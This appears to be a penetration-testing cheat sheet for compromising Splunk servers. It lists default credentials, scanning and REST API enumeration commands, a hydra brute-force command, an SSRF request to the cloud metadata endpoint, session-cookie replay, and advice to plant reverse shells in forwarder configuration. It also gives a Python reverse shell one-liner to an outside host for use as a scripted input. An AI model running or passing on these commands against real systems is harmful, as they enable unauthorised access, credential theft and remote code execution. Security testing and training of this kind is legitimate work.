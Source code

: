 ## 1. Discovery/Footprinting

### 1.1 Nmap Port Scan

```bash
sudo nmap -sV <target_ip> -p 8000,8089
```

- Identify `Splunkd httpd` (port 8000/8089).

### 1.2 Web Interface Access

- `http://<target_ip>:8000`
- Default credentials (older versions): `admin:changeme`
- Common weak passwords: `admin`, `Welcome`, `Password123`
- Check for Splunk Free (no authentication).

### 1.3 Version Detection

- Check web interface headers, or API responses.

## 2. Enumeration

### 2.1 Splunk Free Check

- No login prompt = possible Splunk Free.

### 2.2 Web Interface Exploration

- Data browsing, reports, dashboards.
- Installed Splunkbase applications.

### 2.3 Scripted Inputs (RCE)

- Create inputs for Bash, PowerShell, Python.
- Python reverse shell example (scripted input):

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### 2.4 REST API (Port 8089)

- Enumerate for vulnerabilities.
- Use tools like `curl` or Python `requests`.
- Example REST API Enumeration:

```bash
curl -k -u admin:changeme https://<target_ip>:8089/services/server/info
```

### 2.5 Vulnerability Scanning

- Use vulnerability scanners (e.g., Nessus, OpenVAS).
- Search CVE databases (NVD, Exploit-DB).

### 2.6 SSRF

- Test for SSRF vulnerabilities.
- Example SSRF Exploitation:

```bash
curl -k -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-d "splunk_server=127.0.0.1&remote_server=http://169.254.169.254/latest/meta-data/" \
https://<target_ip>:8089/en-US/splunkd/__raw/services/data/inputs/http
```

### 2.7 Credential Brute-forcing

- Attempt brute forcing Splunk credentials.
- Example using `hydra`:

```bash
hydra -L users.txt -P passwords.txt <target_ip> http-form-post "/en-US/account/login:username=^USER^&password=^PASS^:Invalid username or password"
```

### 2.8 Splunk Log Extraction (if accessible)

```bash
curl -k -u admin:changeme https://<target_ip>:8089/services/search/jobs/export -d search="search index=_internal | head 10"
```

### 2.9 Session Hijacking (If Cookies Leak)

- Capture Splunk session cookies via XSS or MITM.
- Use `curl` or browser to replay requests:

```bash
curl -k -b "splunkd_8000=<session_cookie>" https://<target_ip>:8000/en-US/
```

### 2.10 Splunk Forwarder Abuse

- If compromised, use forwarders to send logs elsewhere or execute scripts.
- Modify `inputs.conf` to insert a reverse shell payload.

## 3. Key Points

1. Splunk often runs as root/SYSTEM.
2. Compromise = access to sensitive logs & network data.
3. Scripted inputs = direct RCE.
4. REST API = powerful attack vector.
5. Splunk logs can contain credentials.
6. Splunk logs can contain network information.
7. Session cookies can be hijacked for persistence.
8. Splunk forwarders can be abused for lateral movement.
